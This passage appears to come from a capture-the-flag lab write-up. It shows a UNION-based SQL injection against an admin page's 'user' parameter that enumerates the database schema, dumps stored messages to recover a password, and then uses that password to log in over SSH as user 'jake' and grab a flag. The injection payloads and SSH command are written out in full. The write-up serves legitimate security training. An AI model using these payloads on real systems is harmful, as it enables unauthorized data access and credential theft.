 Results:

![image](https://user-images.githubusercontent.com/114166939/232225532-dc3651e4-0472-4037-a351-e4938aa20d98.png)

I want to see what tables "marketplace" schema have:

```url
http://10.10.243.219/admin?user=-999 union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema='marketplace'-- -
```

Results:

![image](https://user-images.githubusercontent.com/114166939/232225654-986f46cc-6f2d-45d9-ace6-a65722491897.png)

Now, let's check what's inside "messages" table:

```url
http://10.10.243.219/admin?user=-999 union select group_concat(column_name),2,3,4 from information_schema.columns where table_schema='marketplace' and table_name='messages'-- -
```

Results:

![image](https://user-images.githubusercontent.com/114166939/232225759-2334b75d-5ec9-4459-8ab3-5a95fa5a5821.png)

I'll dump the information from "message_content" column:

```url
http://10.10.243.219/admin?user=-999 union select group_concat(message_content),2,3,4 from marketplace.messages-- -
```

Results:

![image](https://user-images.githubusercontent.com/114166939/232226217-d26b5422-acb2-411a-bcb5-353e6e43ae3a.png)


Now I can login to the SSH service with the password I got.

There are only 4 users in the system, one of them is mine, so I can automate it with hydra or check it manually.

Because it's only 3 users, I did it manually and found that the user which got this password is "jake".

I'll login as jake via SSH:

```bash
ssh jake@10.10.243.219
```

I have a shell as "jake" user!

![image](https://user-images.githubusercontent.com/114166939/232226349-f5c1d98d-abac-4bca-821b-b2adcc33979e.png)

First thing I'll do is to get the second flag, "user.txt" file, which locate in the home directory of "jake" user:

![image](https://user-images.githubusercontent.com/114166939/232226711-4e583a0c-9549-4ea4-b15e-41bd8e85cfb6.png)
